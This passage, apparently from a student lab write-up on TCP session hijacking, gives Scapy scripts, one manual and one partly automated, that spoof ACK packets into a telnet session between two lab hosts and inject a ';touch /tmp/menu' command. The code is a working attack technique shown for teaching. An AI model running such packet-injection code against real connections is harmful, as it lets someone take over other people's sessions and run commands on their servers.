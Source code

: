 ```python
from scapy.all import *

user1 = "10.9.0.6"
user2 = "10.9.0.7"

ip = IP(src=user1, dst=user2)
tcp = TCP(sport=55526, dport=23, flags="A", seq=2724164509, ack=3617793957)
data = ";touch /tmp/menu \n"

pkt = ip/tcp/data
send(pkt, verbose=0, iface="br-d359077599dd")
```
- Add the `A` flag to signify an ACK packet, which is the packet needed to conduct this attack.
- Add the `;` and `\n` before and after the command to ensure that it is properly executed.

> The command we added simply creates a new file at the server machine `/tmp/menu`. We can check for the presence of that file to confirm if our attack works.

4. Running this code does the attack for us, and we can confirm by checking the `/tmp/menu` file and confirming it exists on the server machine. 

![](./screenshots/tcp-12.png)

> One note to take into account is the SEQ number. If the SEQ number was larger than what we put, then the data we sent will be placed into the SEQ buffer at the server. 
> The client will keep sending data with SEQ numbers, and once the SEQ number matching our data that was sent initially is reached, the packet we sent will be received, and our attack will take place. 

5. Moreover, we see that the telnet connection freezes. This happens because the user1 client is now trying to send data with an outdated ACK and SEQ values, hence, the connection seems to have failed.
- To close the frozen terminal, `ctrl+]` and then type `quit`.

##### Automatic Approach

To conduct this attack in an automated way, we need a sniffer to listen for the packets for the telnet connection, and a spoof function to create these fake packets and send them with the correct data.

```python
from scapy.all import *

user1 = "10.9.0.6"
user2 = "10.9.0.7"

def spoof(pkt):
    old_ip = pkt[IP]
    old_tcp = pkt[TCP]

    newseq = old_tcp.seq+5
    newack = old_tcp.ack+1
    
    print(f"oldseq: {old_tcp.seq}, newseq: {newseq}")
    print(f"oldack: {old_tcp.ack}, newack: {newack}")

    ip = IP(src=user1, dst=user2)
    tcp = TCP(sport=old_tcp.sport, dport=23, flags="A", seq=newseq, ack=newack)
    data = ";touch /tmp/menu1 \n"

    newpkt = ip/tcp/data
    send(newpkt, verbose=0, iface="br-d359077599dd")
    quit()
```